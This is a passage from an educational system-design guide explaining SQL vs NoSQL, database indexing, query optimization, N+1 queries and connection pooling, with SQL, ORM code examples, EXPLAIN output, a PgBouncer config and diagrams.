- A **foreign key** (FK) is a column that points at another table's primary key, for example `orders.user_id` points to `users.id`.
- **SQL** (Structured Query Language) is the language you use to ask the database questions: `SELECT name FROM users WHERE id = 42;`

**SQL vs NoSQL in 5 lines:**

1. **SQL (relational) databases** such as PostgreSQL, MySQL, SQL Server and Oracle store data in tables with a fixed **schema** (a declared structure), support JOINs (combining tables), and offer ACID transactions (all-or-nothing changes).
2. **NoSQL databases** relax some of these rules to get easier scaling or flexible data shapes: document (MongoDB), key-value (Redis, DynamoDB), wide-column (Cassandra), graph (Neo4j).
3. SQL shines when data is related and correctness matters: money, orders, inventory.
4. NoSQL shines at huge scale with simple, predictable access patterns, like "get the last 50 messages of this chat".
5. A sensible default for most new projects: start with PostgreSQL, and add a specialized store only when a real need shows up.

Here is the tiny example schema we will use throughout this part: one user places many orders.

```mermaid
erDiagram
    Users ||--o{ Orders : "places"
    Users {
        bigint id PK
        string email
        string name
        timestamp created_at
    }
    Orders {
        bigint id PK
        bigint user_id FK
        decimal total
        string status
        timestamp created_at
    }
```

The symbols `||--o{` mean "one user has zero or more orders".

**Map of this part:**

```mermaid
flowchart LR
    Fast["Make queries fast<br/>40 Indexing<br/>41 Query Optimization<br/>42 N+1 Queries"] --> Conn["Connect efficiently<br/>43 Connection Pooling"]
    Conn --> Copy["Copy the data<br/>44 Replication<br/>45 Read Replicas"]
    Copy --> Split["Split the data<br/>46 Partitioning<br/>47 Sharding"]
    Split --> Change["Change it safely<br/>48 Database Migrations<br/>49 Schema Versioning"]
```

---

### 40. Database Indexing

> **In one line:** An index is a sorted shortcut list that lets the database jump straight to the rows you want instead of reading every single row.

**🏠 Real-life analogy:** Think of the index at the back of a textbook: "Photosynthesis ... page 212". Without it you would flip through all 600 pages. A phone book works the same way: because it is sorted by last name, you can open it in the middle and keep halving the search until you find "Smith". But a phone book sorted by last name is useless if you only know someone's phone number. For that, you would need a *second* index sorted by number.

**❓ What problem does it solve?** Without an index, a query like `SELECT * FROM users WHERE email = 'maya@example.com'` forces a **full table scan** (Postgres calls it a *sequential scan*): the database reads every row and checks it.

- With 100 rows, nobody notices. With 50 million rows, one lookup can take seconds and burn CPU and disk I/O (input/output, the reading and writing of data).
- Now imagine 1,000 users hitting the login page at once. Each login does a full scan, and the database melts.
- A full scan does work proportional to the number of rows (O(n)). An index lookup does work proportional to the *logarithm* of the rows (O(log n)). Because each B-tree page holds hundreds of keys, even a billion-row table usually needs only 3-5 page reads to find one row.

**⚙️ How it works:**

1. **An index is a separate data structure** stored next to the table. It holds `(column value -> location of the row)`, kept in sorted order. The database keeps it updated automatically on every write.
2. **B-tree / B+tree (the default almost everywhere).** PostgreSQL's default index and MySQL InnoDB's indexes are B+trees, which are balanced trees.
   - Each node is one disk **page** (8 KB in PostgreSQL, 16 KB by default in InnoDB) holding hundreds of keys.
   - You start at the **root**, follow **branch** pages, and land on a **leaf** page that points to the row.
   - Leaves are linked left-to-right, so **range queries** (`BETWEEN`, `>`, `ORDER BY`) just walk along the leaves.
   - The tree stays shallow and balanced as you insert, so lookups stay fast.
3. **Hash indexes.** These compute `hash(value) -> bucket`. They are great for exact equality (`=`) but useless for ranges or sorting. PostgreSQL has `USING HASH`, but B-tree is usually just as fast, so hash indexes are rare in SQL databases. Key-value stores (Redis, DynamoDB partition keys) work like a giant hash index.
4. **Composite (multi-column) indexes.** An index on `(last_name, first_name)` is sorted by `last_name` first, then by `first_name` among equal last names, exactly like a phone book.
   - **Leftmost-prefix rule:** the index helps `WHERE last_name = ?` and `WHERE last_name = ? AND first_name = ?`, but NOT `WHERE first_name = ?` alone. You can't use a phone book to find everyone named "Maya".
   - Column order matters. Put equality columns first and the range or sort column last: `(user_id, created_at)` serves "orders of user 42, newest first".
   - MySQL 8.0+ and PostgreSQL 18+ can sometimes do a "skip scan" that works around this, but don't design around it.
5. **Covering indexes.** If the index contains *every* column a query needs, the database answers from the index alone without touching the table. Postgres calls this an *Index Only Scan*, and MySQL shows *Using index*. In PostgreSQL 11+ you can add extra "passenger" columns with `INCLUDE (...)`.
6. **Cardinality and selectivity.**
   - **Cardinality** is how many distinct values a column has. `email` has very high cardinality. `is_active` (true/false) has very low cardinality.
   - **Selectivity** is how small a fraction of rows a filter matches. Indexes help most when a query matches a *small* fraction of rows.
   - An index on `is_active` where 95% of rows are `true` is usually ignored by the planner, because reading most of the table through an index is slower than one straight scan. A **partial index** such as `CREATE INDEX ... WHERE is_active = false` can help with the rare value.
7. **Other index types you'll meet:** GIN (full-text search, JSONB, arrays), GiST (geometry and geo data), and BRIN (huge tables whose rows are naturally in time order, like logs).
8. **The cost.** Every `INSERT`, `UPDATE` and `DELETE` must also update *every* index on that table, so writes get slower. Indexes also take disk space and RAM. An index nobody uses is pure cost.

```mermaid
flowchart LR
    subgraph NoIndex["Without index: full table scan"]
        Q1["WHERE email = 'maya@example.com'"] --> R1["Check row 1"] --> R2["Check row 2"] --> R3["... check every row ..."] --> R4["Check row 5,000,000"]
    end
    subgraph WithIndex["With index: B-tree lookup"]
        Q2["WHERE email = 'maya@example.com'"] --> I1["Root page"] --> I2["Branch page"] --> I3["Leaf page"] --> Row["Exact row location"]
    end
```

Here is how a B+tree is shaped. Every lookup takes the same few hops from root to leaf:

```mermaid
flowchart TD
    Root["Root page<br/>keys: 500"] --> B1["Branch page<br/>keys: 100, 300"]
    Root --> B2["Branch page<br/>keys: 700, 900"]
    B1 --> L1["Leaf: ids 1-99<br/>id to row location"]
    B1 --> L2["Leaf: ids 100-499"]
    B2 --> L3["Leaf: ids 500-899"]
    B2 --> L4["Leaf: ids 900+"]
    L1 -.->|"next leaf"| L2
    L2 -.->|"next leaf"| L3
    L3 -.->|"next leaf"| L4
```

**💻 Example:** PostgreSQL, on a `users` table with about 5 million rows. `EXPLAIN ANALYZE` shows the plan the database chose and how long it really took.

```sql
EXPLAIN ANALYZE
SELECT id, name FROM users WHERE email = 'maya@example.com';
```

Before the index (output trimmed, numbers illustrative):

```text
Seq Scan on users  (cost=0.00..104214.00 rows=1 width=40) (actual time=0.031..412.877 rows=1 loops=1)
  Filter: (email = 'maya@example.com'::text)
  Rows Removed by Filter: 4999999
Execution Time: 412.910 ms
```

Read it like this: "Seq Scan" means it read the whole table, and "Rows Removed by Filter: 4999999" means it threw away almost everything it read. Now add an index. `CONCURRENTLY` builds it without blocking writes (see #48):

```sql
CREATE INDEX CONCURRENTLY idx_users_email ON users (email);
```

After the index (same query):

```text
Index Scan using idx_users_email on users  (cost=0.43..8.45 rows=1 width=40) (actual time=0.025..0.026 rows=1 loops=1)
  Index Cond: (email = 'maya@example.com'::text)
Execution Time: 0.045 ms
```

The exact numbers will differ on your machine. A speed-up of thousands of times is normal for a selective lookup on a big table. Composite and covering indexes:

```sql
CREATE INDEX idx_orders_user_created ON orders (user_id, created_at);

-- GOOD: uses the index (leftmost column user_id is in the WHERE, created_at gives the sort)
SELECT id, total FROM orders WHERE user_id = 42 ORDER BY created_at DESC LIMIT 10;

-- BAD: skips the leftmost column, so this index can't be used efficiently
SELECT id, total FROM orders WHERE created_at > now() - interval '1 day';

-- Covering index: status and total ride along, so the table itself is never read
CREATE INDEX idx_orders_user_cov ON orders (user_id) INCLUDE (status, total);
SELECT status, total FROM orders WHERE user_id = 42;   -- Index Only Scan
```

**🌍 Real-world usage:** Every serious database relies on indexes. PostgreSQL defaults to B-tree. MySQL InnoDB goes further: the table itself *is* a B+tree sorted by primary key (a "clustered index"), and secondary indexes store the primary key to find the row. MongoDB has B-tree indexes and `explain()`. DynamoDB offers Global Secondary Indexes. Elasticsearch is built on an "inverted index" (word -> documents) for search. To find useless indexes, check `pg_stat_user_indexes` (look for `idx_scan = 0`) in Postgres or `sys.schema_unused_indexes` in MySQL. Tools like pganalyze and PgHero suggest missing indexes.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Lookups go from seconds to milliseconds | Every write must update every index, so writes get slower |
| Range queries and `ORDER BY` can avoid sorting | Uses extra disk space and RAM |
| Covering indexes can skip the table entirely | Wrong column order or low selectivity means the index is ignored |
| Unique indexes also enforce rules (no duplicate emails) | Building an index on a huge table takes time and can lock writes |

**⚠️ Common mistakes:**
- Indexing every column "just in case". This slows every write and wastes RAM.
- Getting the composite column order wrong, for example `(created_at, user_id)` when queries filter by `user_id`.
- Indexing low-cardinality columns like `status` or `is_deleted` and expecting magic. Consider a partial index instead.
- Forgetting foreign-key columns. PostgreSQL does NOT index `orders.user_id` automatically, so JOINs and deletes on `users` get slow.
- Running a plain `CREATE INDEX` on a big production table. It blocks writes until the build finishes. Use `CONCURRENTLY`.

**🎯 Remember:** An index trades slower writes and extra storage for much faster reads. Index the columns you filter, join and sort by, and always confirm with `EXPLAIN`.

**🔗 See also:** [#41 Query Optimization](#41-query-optimization), [#42 N+1 Queries](#42-n1-queries), [#48 Database Migrations](#48-database-migrations), [#38 Caching](#38-caching)

---

### 41. Query Optimization

> **In one line:** Query optimization means getting the same answer from the database while making it do far less work.

**🏠 Real-life analogy:** Imagine asking a librarian, "Bring me every book in the library and I'll find the one about sharks myself." Now compare that with, "Please bring me just the title page of the shark book on shelf 5." You get the same answer either way, but the first request is a thousand times more work. Query optimization is learning to ask the second way.

**❓ What problem does it solve?**
- In most busy systems, a handful of queries use most of the database's CPU. One slow query that runs thousands of times a minute can take the whole site down.
- Without optimization you get timeouts (#25), high latency (#5), and expensive upgrades to bigger database servers that only hide the problem for a while.
- Queries that were fine with 10,000 rows get slow at 10 million rows, and they usually get slow suddenly, not gradually.

**⚙️ How it works:**

1. **The query planner.** SQL is *declarative*: you say WHAT you want, and the database's **planner** (also called the optimizer) decides HOW to get it, including which index to use, which table to read first, and which join algorithm to use. It decides using **statistics** about your data, which `ANALYZE` refreshes.
2. **Reading `EXPLAIN ANALYZE`.** `EXPLAIN` shows the planned steps. `EXPLAIN ANALYZE` actually runs the query and adds real timings. Read it from the most-indented line outward.
   - `Seq Scan` reads the whole table. That's fine for small tables and bad for selective lookups on big ones.
   - `Index Scan` / `Index Only Scan` use an index (good for selective queries). `Bitmap Heap Scan` is a middle ground for medium-sized result sets.
   - `Nested Loop`, `Hash Join` and `Merge Join` are the three ways to join tables.
   - Red flags: a huge `Rows Removed by Filter` (missing index), estimated `rows=` very different from actual `rows=` (stale statistics, so run `ANALYZE`), and `Sort Method: external merge  Disk` (the sort didn't fit in memory).
3. **Avoid `SELECT *`.** It sends bytes you don't need over the network, prevents index-only scans, and can break code when someone adds a column. List the columns you need.
4. **Don't wrap indexed columns in functions.** An index on `email` stores the raw values, so `WHERE LOWER(email) = 'maya@example.com'` can't use it. Either create an **expression index** on `LOWER(email)` or store emails already lowercased. Similarly, rewrite `WHERE created_at::date = '2026-10-01'` as a range: `created_at >= '2026-10-01' AND created_at < '2026-10-02'`. A leading wildcard (`LIKE '%gmail.com'`) also can't use a normal B-tree index.
5. **Pagination: OFFSET vs keyset (cursor).**
   - `LIMIT 20 OFFSET 100000` makes the database read 100,020 rows and throw away 100,000 of them, so deep pages get slower and slower.
   - **Keyset pagination** remembers the last row you saw and asks for "the next 20 after this one". With the right index, every page costs the same.
6. **Batching.** One `INSERT` with 1,000 rows beats 1,000 separate inserts, each paying a network round trip and a commit. For big updates, work in chunks (say 5,000 rows) so you don't hold locks for minutes.
7. **Denormalization and materialized views.**
   - **Denormalization** means storing a precomputed copy of data, for example a `comment_count` column on `posts`, so you don't need `COUNT(*)` and JOINs on every page view. The price is keeping that copy in sync.
   - A **materialized view** saves the *result* of an expensive query as a table and refreshes it on a schedule. It's great for dashboards that can be a few minutes old.
8. **Find what to fix first.** Turn on the **slow query log** (PostgreSQL `log_min_duration_statement`, MySQL `slow_query_log` + `long_query_time`) and use **`pg_stat_statements`**, which totals time per query shape. Fix the queries with the highest *total* time (calls × average time), not just the single slowest one.

```mermaid
flowchart LR
    Measure["Measure<br/>pg_stat_statements<br/>slow query log, APM"] --> Pick["Pick the query with<br/>the highest total time"]
    Pick --> Explain["EXPLAIN ANALYZE it"]
    Explain --> Fix["Fix: add index, rewrite,<br/>paginate, batch, cache"]
    Fix --> Verify["Verify on real-sized data"]
    Verify -->|"repeat"| Measure
```

```mermaid
flowchart TD
    subgraph Offset["OFFSET pagination: page 5,001"]
        O1["Read 100,000 rows in order"] --> O2["Throw them away"] --> O3["Return the next 20"]
    end
    subgraph Keyset["Keyset pagination: page 5,001"]
        K1["Jump in the index to<br/>the last seen created_at, id"] --> K2["Return the next 20"]
    end
```

**💻 Example:** Find the worst queries (PostgreSQL 13+, the extension must be in `shared_preload_libraries`):

```sql
CREATE EXTENSION IF NOT EXISTS pg_stat_statements;

SELECT calls,
       round(total_exec_time)       AS total_ms,
       round(mean_exec_time::numeric, 1) AS avg_ms,
       left(query, 80)              AS query
FROM pg_stat_statements
ORDER BY total_exec_time DESC
LIMIT 5;
```

Fix a function-wrapped column with an expression index:

```sql
-- BAD: the plain index on email can't be used, so this is a Seq Scan
SELECT id FROM users WHERE LOWER(email) = 'maya@example.com';

-- FIX: index the expression itself, and the same query becomes an Index Scan
CREATE INDEX CONCURRENTLY idx_users_lower_email ON users (LOWER(email));
```

OFFSET vs keyset pagination:

```sql
-- OFFSET: deep pages get slower and slower
SELECT id, title, created_at FROM posts
ORDER BY created_at DESC, id DESC
LIMIT 20 OFFSET 100000;

-- Keyset: "20 posts older than the last one I showed" (pass the last row's values as the cursor)
SELECT id, title, created_at FROM posts
WHERE (created_at, id) < ('2026-10-01 12:00:00+00', 98765)
ORDER BY created_at DESC, id DESC
LIMIT 20;

-- The index that makes keyset pagination fast
CREATE INDEX idx_posts_created_id ON posts (created_at DESC, id DESC);
```

Batching inserts in Python, using one round trip instead of 1,000:

```python
from psycopg2.extras import execute_values

def save_events(conn, events):
    rows = [(e["user_id"], e["type"], e["at"]) for e in events]
    with conn.cursor() as cur:
        execute_values(cur,
            "INSERT INTO events (user_id, type, created_at) VALUES %s",
            rows, page_size=1000)   # sends 1,000 rows per statement
    conn.commit()
```

A materialized view for a dashboard:

```sql
CREATE MATERIALIZED VIEW daily_sales AS
SELECT date_trunc('day', created_at) AS day, sum(total) AS revenue, count(*) AS orders
FROM orders GROUP BY 1;

CREATE UNIQUE INDEX ON daily_sales (day);                -- required for CONCURRENTLY
REFRESH MATERIALIZED VIEW CONCURRENTLY daily_sales;      -- run every few minutes from a cron job (#35)
```

**A before/after story** (a typical scenario, numbers illustrative). An online store's "My Orders" page got slower as the business grew, until it hit timeouts.

| Step | What the team found | What they changed |
|---|---|---|
| 1. Measure | `pg_stat_statements` showed the "my orders" query at the top by total time | Picked that query first |
| 2. Explain | `Seq Scan on orders`, `Rows Removed by Filter` in the millions | Added `CREATE INDEX CONCURRENTLY ... ON orders (user_id, created_at DESC)` |
| 3. Columns | `SELECT *` pulled a big JSON `shipping_details` column nobody displayed | Selected only `id, total, status, created_at` |
| 4. Pages | Customers with long histories used `OFFSET` deep pages | Switched to keyset pagination |
| 5. Verify | Re-ran `EXPLAIN ANALYZE` on a production-sized copy | Plan became an Index Scan, page time dropped from seconds to milliseconds |

**🌍 Real-world usage:** Public APIs use cursor (keyset) pagination at scale: Stripe's list endpoints take `starting_after`, Slack's Web API returns a `next_cursor`, and GitHub's GraphQL API uses cursors. Common tools for finding slow queries: `pg_stat_statements`, `auto_explain`, pganalyze, PgHero, MySQL Performance Schema, Percona's `pt-query-digest`, AWS RDS Performance Insights, and APM (Application Performance Monitoring) products like Datadog and New Relic.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Add an index | Selective filters, joins and sorts on big tables | Slower writes, more storage |
| Rewrite the query | Functions on columns, `SELECT *`, deep OFFSET | Requires code changes and testing |
| Denormalize | Same expensive JOIN or COUNT on every page view | Data can get out of sync, so you need update logic |
| Materialized view | Heavy reports that can be minutes old | Stale between refreshes, and refreshing costs CPU |
| Cache the result (#38) | Same answer read many times | Invalidation is hard (#39) |

**⚠️ Common mistakes:**
- Optimizing by guessing instead of measuring. Always start from `pg_stat_statements` or the slow log.
- Testing on a tiny dev database. With 100 rows the planner *correctly* picks a Seq Scan, so test with production-sized data.
- Running `EXPLAIN ANALYZE` on an `UPDATE` or `DELETE` in production. It really executes the statement, so wrap it in `BEGIN; ... ROLLBACK;`.
- Comparing columns to the wrong type (for example a text column to a number), which can force a cast and skip the index.
- Using deep `OFFSET` pagination for infinite scroll or exports.

**🎯 Remember:** Measure, then `EXPLAIN ANALYZE`, then fix the query with the biggest *total* time, then measure again. Ask the database for less: fewer rows, fewer columns, fewer round trips.

**🔗 See also:** [#40 Database Indexing](#40-database-indexing), [#42 N+1 Queries](#42-n1-queries), [#38 Caching](#38-caching), [#5 Latency](#5-latency), [#8 Tail Latency](#8-tail-latency)

---

### 42. N+1 Queries

> **In one line:** N+1 happens when your code asks the database one question to get a list, then one more question for *every item* in the list, when two questions would have been enough.

**🏠 Real-life analogy:** You need 20 things from the grocery store. You drive to the store, buy milk, and drive home. Then you drive back for eggs, and home again. That's 20 round trips. The smart way is to write a list and make one trip. N+1 is your code making 20 (or 2,000) trips to the database.

**❓ What problem does it solve?** Every query has a fixed cost: a network round trip, plus parsing and planning on the server, plus a borrowed connection (#43).
- Even if each query takes only 1 ms, 1 + 500 queries means at least half a second spent waiting.
- It's invisible in development, where you have 3 blog posts, and explodes in production, where a page shows 500.
- **ORMs** hide it, because `post.author.name` looks like reading a variable when it's really a database query.

**⚙️ How it works:**

1. **What's an ORM?** An Object-Relational Mapper is a library that turns database rows into objects in your language: Django ORM, Rails Active Record, SQLAlchemy, Hibernate, Prisma, Sequelize.
2. **Lazy loading.** By default, many ORMs don't load related objects until you touch them. `posts = Post.objects.all()` loads posts only. The first time you access `post.author`, the ORM quietly runs `SELECT ... FROM authors WHERE id = ?`.
3. **Inside a loop, that's N extra queries.** You get 1 query for the list plus N queries for the authors, which is "N+1".
4. **Fix 1, JOIN:** fetch posts and authors in one query with `JOIN`. This is best for "many-to-one" links (each post has one author).
5. **Fix 2, eager loading:** tell the ORM up front what you'll need.
   - Django: `select_related("author")` (does a JOIN, for ForeignKey/one-to-one) and `prefetch_related("tags")` (does a second query with `IN`, for many-to-many and reverse relations).
   - Rails: `Post.includes(:author)`.
   - SQLAlchemy: `selectinload(Post.author)` (a second query with `IN`) or `joinedload(Post.author)` (a JOIN).
   - Prisma: `include: { author: true }`. Hibernate/JPA: `JOIN FETCH`.
6. **Fix 3, manual batching with `WHERE id IN (...)`:** collect all the IDs, fetch them in one query, and match them up in memory with a dictionary.
7. **Fix 4, DataLoader for GraphQL:** in GraphQL, each field's *resolver* (the function that fetches that field) runs separately, so N+1 is the natural default. **DataLoader** (open-sourced by Facebook) collects every `load(id)` call made during one tick of the event loop, then calls your batch function *once* with all the IDs. It also caches results for the rest of that request.
8. **Detecting it:**
   - Log the number of queries per request and alert when it's high.
   - Django Debug Toolbar or the `nplusone` package. In tests, `assertNumQueries`.
   - Rails: the **Bullet** gem, and `strict_loading` (Rails 6.1+), which raises an error on lazy loads.
   - SQLAlchemy: `lazy="raise"`.
   - APM and tracing tools (Datadog, New Relic, Sentry) show a "staircase" of identical queries, and Sentry flags "N+1 Query" issues automatically.

Before: 1 + N round trips.

```mermaid
sequenceDiagram
    participant A as App
    participant D as Database
    A->>D: SELECT id, title, author_id FROM posts LIMIT 100
    D-->>A: 100 posts
    loop For each of the 100 posts
        A->>D: SELECT id, name FROM authors WHERE id = ?
        D-->>A: 1 author
    end
    Note over A,D: 1 + 100 = 101 round trips
```

After: 2 round trips (or 1 with a JOIN), no matter how many posts there are.

```mermaid
sequenceDiagram
    participant A as App
    participant D as Database
    A->>D: SELECT id, title, author_id FROM posts LIMIT 100
    D-->>A: 100 posts
    A->>D: SELECT id, name FROM authors WHERE id IN (3, 7, 9, ...)
    D-->>A: All needed authors at once
    Note over A,D: 2 round trips total
```

**💻 Example:** A Django blog. The slow and fast versions differ by one method call.

```python
from django.db import models

class Author(models.Model):
    name = models.CharField(max_length=100)

class Post(models.Model):
    title = models.CharField(max_length=200)
    author = models.ForeignKey(Author, on_delete=models.CASCADE)

def list_posts_slow():
    posts = Post.objects.all()[:100]                      # 1 query
    return [(p.title, p.author.name) for p in posts]      # +1 query PER post (lazy load)

def list_posts_fast():
    posts = Post.objects.select_related("author")[:100]   # 1 query with a JOIN
    return [(p.title, p.author.name) for p in posts]      # no extra queries
```

What the SQL log shows for the slow version:

```text
SELECT id, title, author_id FROM blog_post LIMIT 100
SELECT id, name FROM blog_author WHERE id = 7
SELECT id, name FROM blog_author WHERE id = 3
SELECT id, name FROM blog_author WHERE id = 7      <- same author fetched again!
... 97 more lines like this ...
Total: 101 queries
```

And for the fast version:

```text
SELECT blog_post.id, blog_post.title, blog_author.id, blog_author.name
FROM blog_post INNER JOIN blog_author ON blog_post.author_id = blog_author.id
LIMIT 100
Total: 1 query
```

The same fix in other ORMs:

```python
from sqlalchemy import select
from sqlalchemy.orm import selectinload

stmt = select(Post).options(selectinload(Post.author)).limit(100)   # SQLAlchemy: 2 queries
posts = session.scalars(stmt).all()
```

```ruby
Post.includes(:author).limit(100).each { |p| puts p.author.name }   # Rails: 2 queries
```

Manual batching with `IN`, when you're not using an ORM:

```python
def posts_with_authors(db):
    posts = db.fetch_all("SELECT id, title, author_id FROM posts LIMIT 100")
    author_ids = list({p["author_id"] for p in posts})                 # unique ids
    rows = db.fetch_all("SELECT id, name FROM authors WHERE id = ANY(%s)", [author_ids])
    authors = {r["id"]: r for r in rows}                               # id -> author
    return [{**p, "author": authors[p["author_id"]]} for p in posts]
```

DataLoader in a Node.js GraphQL server:

```js
const DataLoader = require('dataloader');

function createLoaders(db) {                       // create NEW loaders for every request
  return {
    author: new DataLoader(async (ids) => {        // called ONCE with all ids, e.g. [3, 7, 9]
      const { rows } = await db.query('SELECT id, name FROM authors WHERE id = ANY($1)', [ids]);
      const byId = new Map(rows.map((r) => [r.id, r]));
      return ids.map((id) => byId.get(id) || null); // results must be in the same order as ids
    }),
  };
}

const resolvers = {
  Post: { author: (post, args, ctx) => ctx.loaders.author.load(post.authorId) },
};
```

**🌍 Real-world usage:** N+1 is one of the most common performance bugs in web apps built on ORMs. That's why Rails added `strict_loading`, the Bullet gem exists, and Sentry detects N+1 automatically. DataLoader came out of Facebook's GraphQL work and has ports in many languages. Shopify open-sourced `graphql-batch` for the same purpose in Ruby.

**⚖️ Trade-offs:**

| Fix | Best for | Downside |
|---|---|---|
| JOIN / `select_related` / `joinedload` | Many-to-one (post -> author) | With one-to-many, parent rows are repeated ("row explosion") |
| Second query with `IN` / `prefetch_related` / `selectinload` / `includes` | One-to-many and many-to-many | Two round trips, and very large `IN` lists need chunking |
| DataLoader | GraphQL resolvers | Extra library, and it must be created per request |
| Leave it lazy | Truly rare access to the relation | Easy to forget and blow up later |

**⚠️ Common mistakes:**
- Missing N+1 hidden in templates or serializers, for example `{{ post.author.name }}` inside a template loop.
- JOIN-eager-loading several "has many" relations at once, which multiplies rows (posts × comments × tags) and can be slower than the N+1.
- Eager-loading everything "just in case", which loads big objects you never use.
- Sharing one DataLoader across requests, which can leak cached data between users. Create one per request.
- Testing only with tiny data. Add a test that asserts the query count.

**🎯 Remember:** If you see a query inside a loop, you probably have N+1. Load related data in bulk, with a JOIN or with `WHERE id IN (...)`.

**🔗 See also:** [#41 Query Optimization](#41-query-optimization), [#40 Database Indexing](#40-database-indexing), [#43 Connection Pooling](#43-connection-pooling), [#5 Latency](#5-latency), [#85 Distributed Tracing](#85-distributed-tracing)

---


### 43. Connection Pooling

> **In one line:** A connection pool keeps a small set of database connections open and lets requests share them, so nobody has to open a brand-new connection every time.

**🏠 Real-life analogy:** A restaurant has a fixed team of waiters. When you arrive, a free waiter serves you. If they're all busy, you wait a minute at the door. The restaurant does NOT hire, train and fire a new waiter for every customer, because that would be slow and chaotic. And if it hired 500 waiters for a kitchen with 4 cooks, the waiters would just crowd the kitchen and slow everyone down. A connection pool is that fixed team of waiters.

**❓ What problem does it solve?** Opening a database connection is surprisingly expensive:
- a **TCP handshake** (one network round trip),
- a **TLS handshake** for encryption (more round trips, see #4),
- **authentication** (for example SCRAM password exchange in PostgreSQL, several more messages),
- **server-side setup**: PostgreSQL **forks a whole new operating-system process for every connection**, and each one uses memory. MySQL uses a thread per connection, which is lighter but not free.

That's often several milliseconds or more, which is longer than the query itself. Without a pool, every web request pays that cost. At high traffic the database runs out of slots. PostgreSQL's default `max_connections` is 100, and after that new clients get `FATAL: sorry, too many clients already`.

**⚙️ How it works:**

1. **Startup:** the pool opens a few connections and keeps them warm.
2. **Borrow (check out):** a request takes a free connection, runs its queries, then **returns** it (check in). Returning does not close the connection.
3. **Wait when busy:** if all connections are in use, the request waits in a queue up to a timeout (HikariCP's default `connectionTimeout` is 30 seconds), then fails with an error.
4. **Housekeeping:** the pool checks that connections are alive ("pre-ping"), replaces old ones (max lifetime), and closes extra idle ones.
5. **Do the math across ALL instances.** The total connections hitting the database = pool size × processes per server × number of servers (pods). For example, 20 pods × 4 worker processes × a pool of 10 = 800 connections, which is way over PostgreSQL's default of 100. Autoscaling (#65) makes this number jump at the worst possible moment.
6. **How big should a pool be?** The HikariCP project's "About Pool Sizing" guide quotes a starting formula from the PostgreSQL community: **connections ≈ (core_count × 2) + effective_spindle_count**. `core_count` is the *database server's* CPU cores, and `effective_spindle_count` is roughly the number of disks that can work in parallel. Their example is a 4-core server with one disk: (4 × 2) + 1 = 9, so about 10 connections. Then measure and tune.
7. **Why smaller pools are often faster:** a CPU core can only run one thing at a time. With hundreds of active connections, the database wastes time switching between them, fighting over locks, and thrashing its caches. Waiting in your app's pool queue is cheaper than waiting inside the database. The HikariCP guide cites a demo by Oracle's Real-World Performance group where shrinking a huge pool made response times dramatically *better*.
8. **Pool exhaustion symptoms:** requests hang, then fail with errors like `Connection is not available, request timed out after 30000ms` (HikariCP) or `QueuePool limit of size 5 overflow 10 reached, connection timed out` (SQLAlchemy). Latency spikes while database CPU looks *low*, because the bottleneck is the pool, not the database. Common causes are connection leaks (never returned), long transactions, slow queries, and calling slow external APIs while holding a connection.
9. **External poolers.** When you have many app instances, put a pooler between them and the database.
   - **PgBouncer** is a tiny proxy that accepts thousands of client connections and funnels them into a few real PostgreSQL connections. It has three modes: *session* (a server connection is pinned for the client's whole session), *transaction* (a server connection is lent only for the length of one transaction, giving the best reuse and the most popular choice), and *statement* (the strictest).
   - Transaction mode breaks session-level features: `SET` variables, session advisory locks, `LISTEN/NOTIFY`, and temp tables. Named prepared statements needed PgBouncer 1.21+ to work in this mode.
   - Alternatives: Pgpool-II, Odyssey, PgCat, Supabase's Supavisor, and ProxySQL for MySQL.
   - **AWS RDS Proxy** is a managed pooler for RDS and Aurora. It's built for **serverless connection storms**: when hundreds of AWS Lambda functions start at once and each opens its own connection, RDS Proxy multiplexes them onto a small shared pool (see #66, #67).

```mermaid
flowchart LR
    subgraph AppServer["One app server process"]
        Req1["Request 1"] --> Pool["Connection pool<br/>3 open connections"]
        Req2["Request 2"] --> Pool
        Req3["Request 3"] --> Pool
        Req4["Request 4<br/>waits in queue"] -.-> Pool
    end
    Pool ==>|"reused connections"| DB[("PostgreSQL<br/>1 OS process per connection")]
```

```mermaid
flowchart LR
    Pod1["App pod 1"] --> Bouncer["PgBouncer<br/>transaction mode"]
    Pod2["App pod 2"] --> Bouncer
    Pod3["App pod 3"] --> Bouncer
    Lambda["Many Lambda functions"] --> Proxy["RDS Proxy"]
    Bouncer -->|"few real connections"| PG[("PostgreSQL")]
    Proxy -->|"few real connections"| Aurora[("Aurora / RDS")]
```

**💻 Example:** SQLAlchemy pool configuration in Python. The `with` block guarantees the connection goes back to the pool even if an error happens.

```python
import os
from sqlalchemy import create_engine, text

engine = create_engine(
    os.environ["DATABASE_URL"],   # never hard-code passwords
    pool_size=10,                 # connections kept open
    max_overflow=5,               # temporary extras during bursts (max 15 total)
    pool_timeout=5,               # seconds to wait for a free connection, then raise
    pool_recycle=1800,            # replace connections older than 30 minutes
    pool_pre_ping=True,           # cheap "are you alive?" check before use
)

def get_order(order_id: int):
    with engine.connect() as conn:                       # borrow from the pool
        return conn.execute(
            text("SELECT id, total, status FROM orders WHERE id = :id"),
            {"id": order_id},
        ).first()                                        # returned to the pool here
```

A minimal PgBouncer config (`pgbouncer.ini`). Apps connect to port 6432 instead of 5432:

```ini
[databases]
shop = host=10.0.0.5 port=5432 dbname=shop

[pgbouncer]
listen_port = 6432
pool_mode = transaction       ; lend a server connection per transaction
max_client_conn = 5000        ; app-side connections PgBouncer will accept
default_pool_size = 20        ; real Postgres connections per user+database pair
```

**🌍 Real-world usage:** HikariCP is the default pool in Spring Boot. Most frameworks ship a pool (SQLAlchemy, Django's `CONN_MAX_AGE` persistent connections, Rails' `pool:` setting, node-postgres `Pool`). PgBouncer is the classic PostgreSQL pooler: GitLab's reference architectures include PgBouncer nodes, and managed Postgres providers like Supabase and Heroku offer built-in pooling. AWS RDS Proxy is the usual answer for Lambda + RDS.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| In-app pool only | Few app instances, steady traffic | Total connections grow with every pod you add |
| PgBouncer (transaction mode) | Many pods or processes talking to PostgreSQL | Session features break, and it's one more component to run |
| RDS Proxy | Serverless or bursty workloads on AWS | Extra cost and a small added latency, AWS-only |
| No pool | One-off scripts and cron jobs | Slow per-request connects, connection storms |

**⚠️ Common mistakes:**
- Thinking "bigger pool = faster". Past a point, more connections make the database *slower*.
- Forgetting to multiply the pool size by processes and pods (and by autoscaling's maximum).
- Leaking connections by not using `with`/`try-finally`, so the pool slowly drains.
- Holding a connection or open transaction while calling a slow external API.
- Using `SET`, temp tables or session locks through PgBouncer in transaction mode.

